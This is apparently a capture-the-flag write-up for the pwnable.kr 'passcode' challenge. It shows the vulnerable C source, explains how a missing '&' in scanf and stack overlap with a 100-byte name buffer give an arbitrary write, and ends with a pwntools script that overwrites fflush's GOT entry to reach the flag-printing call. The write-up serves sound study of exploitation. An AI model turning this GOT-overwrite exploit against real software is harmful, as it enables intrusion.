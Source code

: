 
First, lets take a look on the code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

We can notice that in the `scanf` they forgot to put `&` sign, which means instead of putting our input into `passcode1` scanf gonna use passcode1 as a pointer, and put our input in the memory passcode1 points to.
Because of this, if we can decide what will be the default value of passcode1, we can get `arbitrary write` !

Lets check in `gdb` if we can somehow using the welcome buffer, in order to affect the default values in `login` stack frame

![cyclic.png](images/cyclic.png)
![edx.png](images/edx.png)
![cyclic_result.png](images/cyclic_result.png)

It seems like after 96 bytes, we can override passcode1 !!
Now we have `arbitrary write`.
We can put an address of any function in the `got` 
our options:
- fflush
- printf
- puts
- exit

the problem is, we need to check, that the address does not includes `0x00`
cause null terminator would stop our scanf.
![objdump.png](images/objdump.png)

seems like `fflush` can work for us, we will override the address and make it jump to the system!
```python
#!/usr/bin/python3

from pwn import *

passcode_offset = 96

elf = ELF("passcode")

s = ssh(host="pwnable.kr", port=2222, user="passcode", password="guest")
p = s.process(["./passcode"])

payload = b'a'*passcode_offset + p32(elf.sym["got.fflush"])
p.recvline()

p.sendline(payload)

p.recvuntil(b"Welcome")
p.sendline(str(0x080485d7).encode())

p.interactive()
```
![win.png](images/win.png)